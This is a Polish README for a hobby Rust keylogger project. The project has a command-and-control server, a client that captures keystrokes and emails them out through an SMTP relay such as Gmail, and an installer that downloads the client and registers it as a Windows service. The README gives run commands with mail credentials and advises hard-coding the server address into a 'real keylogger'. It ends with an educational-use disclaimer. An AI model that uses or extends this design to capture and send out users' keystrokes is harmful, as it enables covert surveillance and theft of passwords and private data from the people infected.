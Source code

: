 # Prosty keylogger

Prosty keyloigger powstający w ramach nauki windows api i kilku bibliotek Rusta.
Składa się z 4 części (na razie 3)

1. `cc` - Niby serwer Command & Control, ale w obecnym stanie tylko przesyła podstawową konfigurację
2. `client` - Właściwy keylogger do zbierania klawiszy i wysyłania
3. `installer` - Program łączący się z `cc` i pobierający właściwy keylogger i go instalujący
4. `decoder` - __TODO__

## Komponenty 
### `cc`

Należy go umieścić w dostępnym miejscu,  odpali się słuchając na porcie 8080.  
W obecnej wersji przesyła tylko konfigurację klienta, żeby wysyłał mailem.
Hasło do maila trzeba podać. Przykład uruchomienia (przez Cargo) w tym durnym powershellu.
W normalnych systemach zamiast \` będzie się dawało \.
```powershell
cargo run --bin cc -- `
--login prostykeylogger `
--password "aaaa bbbb cccc dddd" ` 
--host-file target/debug/client.exe `
--relay "smtp.gmail.com" `
--from "<prostykeylogger@gmail.com>" `
--to "Admin <prostykeylogger@gmail.com>"
```
Podane hasło to hasło logowania do maila (lub `app password` np w google, które nie pozwala użyć właściwego hasła przez api `smtp`)


### `installer`
Trzeba go uruchomić z uprawnieniami administratora.
Nie działa jeszcze poprawnie bo choć pobiera `clienta` i rejestruje go jako serwis to serwic nie działa.
Jest to prawdopodobnie związane z tym że windows jest durny i go nie używam na codzień, przez co nie wiem jeszcze jak się
robi działające serwisy.
Uruchomiony bez argumentów powinien połączyć się z serwerm `http://localhost:8080`.
W prawdzimym keyloggerze wypadało to zmienić, teraz można go opcją ustawić, ale najeloiej jakby docelowy adres był wkompilowany jako domyślny


W terminalu z uprawnieniami admina:
```powershell
cargo run --bin installer -- 
```

### `client`
Zbiera klucze i wysyła zadanym kanałem (na razie tylko mail jest wspierany).
Uruchamia się, pobiera konfigurację z serwera i ma działać.

Docelowo powiniein być zarejestrowany jako serwic i uruchamiać się przy starcie, ale to jeszcze nie działa.

Ręczne uruchomienie:
```powershell
cargo run --bin client -- 
```
> Musi działać serwer `cc`

A na razie działa tylko do serwera `localhsot:8080`, bo docelowo ma mieć plik w którym jest zapisane gdzie jest serwer, albo wartość wkompilowaną.


## Inspiracja

Na podstawie wpisu [Oded Awaskar](https://www.varonis.com/blog/malware-coding-lessons-people-part-learning-write-custom-fud-fully-undetected-malware).
Tylko że w Rust

## Licencja

__MIT__

Ale proszę wykorzystywać w celu edukacyjnym i nie wykorzystywać w celach robienia ludziom krzywdy.